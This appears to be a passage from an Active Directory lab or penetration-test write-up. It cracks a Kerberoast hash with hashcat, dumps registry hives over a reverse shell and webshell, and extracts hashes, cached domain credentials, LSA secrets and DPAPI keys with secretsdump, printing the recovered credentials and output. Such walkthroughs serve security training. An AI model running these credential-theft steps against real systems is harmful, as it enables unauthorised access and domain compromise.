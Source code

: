 >Take the output hash values and crack with hashcat.  

```
c:\Tools\hashcat625>
hashcat.exe -m 13100 s:\hashes\ad-assess1.hash s:\wordlists\rockyou.txt -O
```

## Credentials to Domain  

>Password for user `svc_sql` is obtained from running hashcat.  

```
$krb5tgs$23$*svc_sql$INLANEFREIGHT.LOCAL$MSSQLSvc/SQL01.inlanefreight.local:1433*$8754c1 <snip> 80faa9acb915:lucky7
```

>Credentials obtained, `svc_sql:lucky7`  

## SAM Attack  

>In the current reverse shell as system save the SAM, System and Security registry hives to file. Transfer the files with the webshell to kali linux.  

```
reg.exe save hklm\sam C:\tools\sam.save
reg.exe save hklm\system C:\tools\system.save
reg.exe save hklm\security C:\tools\security.save
```  

>On Kali linux extract the hashes from SAM files.  

```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```  

>output from Impacket secretsdump:  

```
[*] Target system bootKey: 0x908b8788f43a4425cb000861860970e3
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
INLANEFREIGHT.LOCAL/Administrator:$DCC2$10240#Administrator#9553faad97c2767127df83980f3ac245: (2022-04-29 21:32:40)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:51e2d013974236b559923abf67e2d9484ddc1659df2896c38bd5c75796f6f020b918f14c3668c6e6f849ba2cc8981193952b0b20d89558f2b6eaced126e82e1c670951d4b1d3d1df61ac0ac2151f4baa02a93a0e18e10ad51fbd43727839c7753566b15bf7fac5ef159e9903b3a7d69d19f79adeee555a63af1f47b3875a1f488438acdde74568669b721c7cbde4edbd336a9f1ca2c1faa2b9b0b1125297139b20c6c1e0aca01b7a17df4c74f31c90a154a5e895e1ea352e8c03b9221677ec302d3d0a2bc02f4dc9e92ed8d4742a621630020e72a5e452927110deaabdc0b2533bb2e41f19c134141b0945953e1de20a
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b0f52a34065997628d1dd9cd8202ce32
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x2b2dc77fd80b47be8ec5a3828de72d30b7314b2e
dpapi_userkey:0xb48b1806f8e0c5022b9cc0f92da0781ce6a24a60
[*] L$ASP.NETAutoGenKeysV44.0.30319.0 
```  
